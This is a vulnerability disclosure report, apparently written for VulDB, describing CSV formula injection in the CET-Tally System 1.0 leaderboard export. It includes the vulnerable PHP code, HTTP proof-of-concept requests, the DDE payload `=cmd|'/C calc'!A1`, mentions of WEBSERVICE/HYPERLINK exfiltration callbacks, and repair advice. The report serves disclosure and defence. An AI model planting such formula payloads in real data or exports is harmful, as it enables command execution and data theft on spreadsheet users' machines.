

# SourceCodester CET-Tally System 1.0 /index.php?action=export_leaderboard name= CSV Injection

## Author

- (submitter name pending user confirmation — will be filled from vuldb.txt account at submission time)

## Vendor and Software Links

- https://www.sourcecodester.com/php/18718/cet-tally-system-advanced-college-event-tallying-leaderboard-system-php-and-mysql.html
- https://www.sourcecodester.com/download-code?nid=18718

## Overview

- CET-Tally System (Advanced College Event Tallying & Leaderboard System), version 1.0 (current public download, 2026-11), writes attacker-controlled team and event names into its CSV exports without neutralizing spreadsheet formula characters. A stored value beginning with `=`, `+`, `-` or `@` is exported verbatim and is evaluated as a live formula (including DDE command execution vectors such as `=cmd|...`) when the exported file is opened in Excel, LibreOffice Calc or Google Sheets.

## Details

- Vulnerable file: `/index.php` — storage via `action=add_team`/`add_event`/`edit_team`/`edit_event`, sink in the two CSV export endpoints
- Parameter: `name` (POST) → exported as the "Team Name" / "Event Name" column
- Affected version: 1.0 (current public download, 2026-11)
- Storage — team/event names are inserted verbatim (prepared statements make the write SQL-safe; no content policy applies):

```php
// index.php:149-151
$stmt = $pdo->prepare("INSERT INTO teams (name, color) VALUES (?, ?)");
$stmt->execute([$_POST['name'], $_POST['color']]);
```

- Export — both endpoints stream rows straight through `fputcsv()`, which only quotes delimiter-containing fields and performs **no leading-formula-character neutralization**:

```php
// index.php:113  — export_leaderboard (reachable by ANY logged-in user, gate is index.php:92-93)
fputcsv($output, [$rank++, $row['name'], $row['total_points']]);
// index.php:138  — export_scores (admin-only), same omission:
fputcsv($output, [$row['category'], $row['event_name'], $row['team_name'], $row['points']]);
```

- The download is served as `Content-Type: text/csv` with an `attachment` disposition, so the file opens in a spreadsheet application on the victim's machine — exactly the environment where formula evaluation happens.

## Description

- A user stores a team (or event) whose name is a spreadsheet formula instead of a label — the classic DDE vector `=cmd|'/C calc'!A1` fits the `varchar(100)` column with room to spare. Any other user can download the leaderboard export (`/index.php?action=export_leaderboard` requires no admin role), and when the file is opened in Excel/LibreOffice/Google Sheets, the cell is evaluated as a live formula: arbitrary command execution via DDE in the spreadsheet user's OS context, or silent data exfiltration via `=WEBSERVICE(...)`/`=HYPERLINK(...)` callbacks. The victim has no indication that a competition leaderboard CSV carries an executable payload.

## PoC

- Request — store the formula string as a team name (admin session):

```
POST /index.php HTTP/1.1
Host: 127.0.0.1:8141
Cookie: PHPSESSID=<admin session>
Content-Type: application/x-www-form-urlencoded

action=add_team&name==cmd|'/C calc'!A1&color=%230d6efd
```

- Response:

```
HTTP/1.1 302 Found
Location: index.php?page=teams&success=Team successfully added!
```

- Export request (any authenticated user):

```
GET /index.php?action=export_leaderboard HTTP/1.1
Host: 127.0.0.1:8141
Cookie: PHPSESSID=<user session>
```

- Response — the formula string is exported verbatim (quoted for delimiters, but the leading `=` is untouched):

```
HTTP/1.1 200 OK
Content-Type: text/csv; charset=utf-8
Content-Disposition: attachment; filename=Leaderboard_Report_2026-11-09.csv

Rank,"Team Name","Total Points"
1,GRYFFINDOR,50
2,"Manok na Itim",15
3,RAVENCLAW,15
4,HUFFLEPUF,10
5,SLYTHERIN,10
6,"=cmd|'/C calc'!A1",0
```

## Payload

```
=cmd|'/C calc'!A1
```

## Screenshot: formula string present in the real downloaded export

The screenshot shows the CSV file exactly as downloaded from `/index.php?action=export_leaderboard` (opened as text): row 6 contains the stored `=cmd|'/C calc'!A1` payload exported without any neutralization. Opening this file in Excel/LibreOffice evaluates the cell as a DDE formula.



Full evidence log: `poc/F02-csv-formula-injection.txt` (complete request/response chain + CSV body).

## Suggested repair

1. Escape at export: before `fputcsv()`, prefix any field starting with `=`, `+`, `-`, `@`, CR or TAB with a single quote (`'`) or a TAB — per OWASP's CSV injection guidance — in both export endpoints (index.php:113 and :138).
2. Validate at input: reject leading formula characters in `name` fields of `add_team`/`add_event`/`edit_team`/`edit_event` (index.php:149-187).
3. Keep the export machine-readable but inert: emit a header row warning, and consider serving exports with `Content-Disposition: attachment` plus a `.txt`-style delivery flow that requires explicit user confirmation before opening.
4. Audit all export paths in the same pass — the scores export (:138) shares both the sink and the same unsanitized upstream fields (`event_name`, `team_name`, `category`).

## Dedup note

- NVD: keyword searches for the product's three name variants ("College Event Tallying", "CET-Tally", "College Event Tally") return 0 CVEs (checked 2026-11-09).
- VulDB: no entries exist for this product at all (site searches returned none) — no same-file/parameter/type entry to collide with.
